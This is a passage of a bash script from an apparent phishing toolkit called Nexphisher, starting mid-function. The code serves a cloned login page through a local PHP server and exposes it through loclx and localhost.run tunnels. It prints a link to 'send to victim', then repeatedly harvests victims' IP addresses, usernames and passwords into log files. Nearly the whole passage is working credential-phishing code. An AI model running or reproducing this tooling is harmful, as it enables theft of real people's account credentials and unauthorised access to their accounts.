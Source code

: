 # Nexphiaher
Nexphisher
read loclx_subdomain
loclx_subdomain="${loclx_subdomain:-${loclx_default_sub}}"
sleep 1
fi

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4142\e[0m\e[1;91m )\e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalTunnel ...\e[0m\n"
cd .htr/www && php -S 127.0.0.1:4142 > /dev/null 2>&1 & 
if [[ $loclx_custom_subdomain == true ]]; then

./.htr/loclx tunnel http --to :4142 --subdomain $loclx_subdomain > .nexlink 2> /dev/null &

sleep 8

else
./.htr/loclx tunnel http --to :4142 > .nexlink 2> /dev/null &
sleep 8
fi
loclx_link=$(grep -o 'https://[0-9a-z]*\.loclx.io ' .nexlink)
smallbanner
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $loclx_link

datafound
}

start_localhostrun() {

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalHostRun ...\e[0m\n"
cd .htr/www && php -S 127.0.0.1:4545 > /dev/null 2>&1 & 
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4545\e[0m\e[1;91m )\e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Press Ctrl+C to View Login Creds \e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m"
ssh -R 80:localhost:4545 ssh.localhost.run

printf "\e[0m\n"

printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m::\e[0m\e[1;31m]\e[0m\e[1;93m Login Info \e[1;31m[\e[0m\e[1;77m::\e[0m\e[1;31m]\e[0m\n"
printf "\e[0m\n"
while [ true ]; do


if [[ -e ".htr/www/ip.txt" ]]; then
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found !\e[0m\n"
grab_ip
rm -rf .htr/www/ip.txt
fi
sleep 0.75
if [[ -e ".htr/www/usernames.txt" ]]; then
account=$(grep -o 'Username:.*' .htr/www/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' .htr/www/usernames.txt | cut -d ":" -f2)
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password
cat .htr/www/usernames.txt >> logs/$website.log
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m logs/%s.log\e[0m\n" $website
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Press Ctrl + C to Exit\e[0m\n"
rm -rf .htr/www/usernames.txt
fi
sleep 0.75

done

}

grab_ip() {

ip=$(grep -a 'IP:' .htr/www/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP:\e[0m\e[1;96m %s\e[0m\n" $ip
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m ip.txt\e[0m\n" $server
printf "\n"
cat .htr/www/ip.txt >> ip.txt

}

grab_creds() {

account=$(grep -o 'Username:.*' .htr/www/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' .htr/www/usernames.txt | cut -d ":" -f2)
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password
cat .htr/www/usernames.txt >> logs/$website.log
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m logs/%s.log\e[0m\n" $website
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Next Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"

}

datafound() {

printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"
printf "\n"
while [ true ]; do


if [[ -e ".htr/www/ip.txt" ]]; then
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found !\e[0m\n"
grab_ip
rm -rf .htr/www/ip.txt
fi
sleep 0.75
if [[ -e ".htr/www/usernames.txt" ]]; then
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Login info Found !!\e[0m\n"
grab_creds
rm -rf .htr/www/usernames.txt
fi
sleep 0.75


done 

}

banner
reqs
menu
